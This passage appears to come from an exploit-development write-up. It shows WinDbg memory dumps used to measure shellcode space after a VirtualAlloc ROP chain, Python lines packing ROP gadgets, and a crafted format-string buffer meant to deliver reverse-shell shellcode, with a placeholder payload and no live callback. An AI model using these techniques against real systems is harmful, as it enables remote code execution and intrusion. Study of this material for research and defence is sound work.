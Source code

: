 ## Running Shellcode <a name="shellexec"></a>

Once completed, we replace our dummy shellcode with some actual shellcode that will execute a payload to obtain a reverse shell.

Let’s identify how much space we have.  When `VirtualAlloc` completes we return to our dummy shellcode, we can dump memory at `EIP` to find the exact amount.

```python
0:077> dd eip L70
01a1e4b4  cccccccc cccccccc cccccccc cccccccc
01a1e4c4  cccccccc cccccccc cccccccc cccccccc
01a1e4d4  cccccccc cccccccc cccccccc cccccccc
01a1e4e4  cccccccc cccccccc cccccccc cccccccc
01a1e4f4  cccccccc cccccccc cccccccc cccccccc
01a1e504  cccccccc cccccccc cccccccc cccccccc
01a1e514  cccccccc cccccccc cccccccc cccccccc
01a1e524  cccccccc cccccccc cccccccc cccccccc
01a1e534  cccccccc cccccccc cccccccc cccccccc
01a1e544  cccccccc cccccccc cccccccc cccccccc
01a1e554  cccccccc cccccccc cccccccc cccccccc
01a1e564  cccccccc cccccccc cccccccc cccccccc
01a1e574  cccccccc cccccccc cccccccc cccccccc
01a1e584  cccccccc cccccccc cccccccc cccccccc
01a1e594  cccccccc cccccccc cccccccc cccccccc
01a1e5a4  cccccccc cccccccc cccccccc cccccccc
01a1e5b4  cccccccc cccccccc cccccccc cccccccc
01a1e5c4  cccccccc cccccccc cccccccc cccccccc
01a1e5d4  cccccccc cccccccc cccccccc cccccccc
01a1e5e4  cccccccc cccccccc cccccccc cccccccc
01a1e5f4  00000000 00000000 00000000 00000000

0:077> ? 01a1e5e4 - eip
Evaluate expression: 304 = 00000130
```

We only seem to have `304` bytes available, we testing if we can increase the buffer or we need to use custom shellcode. We increase our shellcode buffer from `0x400` to `0x600`.

```python
rop += pack("<L", (0x50218139)) # push eax ; pop ebp ; ret  ;

rop += pack("<L", (0x1001a555)) # mov esp, ebp ; pop ebp ; ret  ;

shellcode = b"\xcc" * (0x600 - 276 - 4 - len(rop))

formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (offset + va + eip + rop + shellcode ,0,0,0,0)
buf += formatString
```

Not good, it seems we have an access violation and would need custom shellcode. 
